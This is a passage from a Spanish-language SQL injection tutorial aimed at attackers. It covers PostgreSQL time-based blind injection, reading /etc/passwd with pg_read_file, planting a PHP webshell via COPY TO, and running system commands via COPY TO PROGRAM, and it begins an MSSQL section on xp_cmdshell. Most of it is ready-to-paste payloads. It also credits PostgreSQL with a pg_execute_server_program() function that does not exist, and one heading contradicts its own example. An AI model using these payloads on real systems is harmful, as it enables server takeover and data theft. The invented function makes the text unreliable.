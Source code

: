 Si no puedes ver la respuesta, prueba con `pg_sleep()`:
```
' OR (SELECT CASE WHEN (SUBSTRING((SELECT version()) FROM 1 FOR 1) = '1') THEN pg_sleep(5) ELSE pg_sleep(0) END); --  
```
Si la consulta tarda 5 segundos, significa que la versión de PostgreSQL comienza con "1".

---

### **3. Explotación Avanzada en PostgreSQL**

#### **a) Leer Archivos con `pg_read_file()`**

Si tienes los permisos adecuados, puedes leer archivos del servidor:
```
' UNION SELECT 1,2,3,pg_read_file('/etc/passwd', 0, 1000); --  
```
Esto extrae los primeros 1000 bytes de `/etc/passwd` en Linux.

#### **b) Escribir Archivos con `COPY TO`**

Si tienes permisos, puedes escribir un webshell en el servidor:
```
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
```
Esto crea un archivo `shell.php` que permite ejecutar comandos a través del navegador.

#### **c) Ejecutar Comandos con `COPY FROM PROGRAM`**

Si el usuario de PostgreSQL tiene permisos, puedes ejecutar comandos del sistema:
```
COPY (SELECT '') TO PROGRAM 'id > /tmp/output.txt';
```
Esto ejecuta `id` y almacena el resultado en `/tmp/output.txt`. Puedes leer el contenido después con `pg_read_file()`.
 
 ---

### **4. Escalada con `pg_execute_server_program()` (PostgreSQL 9.3+)**

Desde PostgreSQL 9.3 en adelante, podemos usar esta función para ejecutar comandos:

```
SELECT pg_execute_server_program('whoami');
```
Si funciona, significa que tenemos ejecución de comandos con privilegios del usuario de la base de datos.

##  MSSQL

### **1. Diferencias Clave en MSSQL**

-   **Stacked queries (`;`) son soportadas**, lo que permite ejecuciones más directas.
-   **Soporta `xp_cmdshell` para ejecutar comandos en el sistema**, si está habilitado.
-   **Tiene `OPENROWSET`, `sp_OA*` y funciones CLR para ejecución avanzada.**
-   **No usa `pg_sleep()` ni `BENCHMARK()`, pero puedes hacer delays con `WAITFOR DELAY`.**

---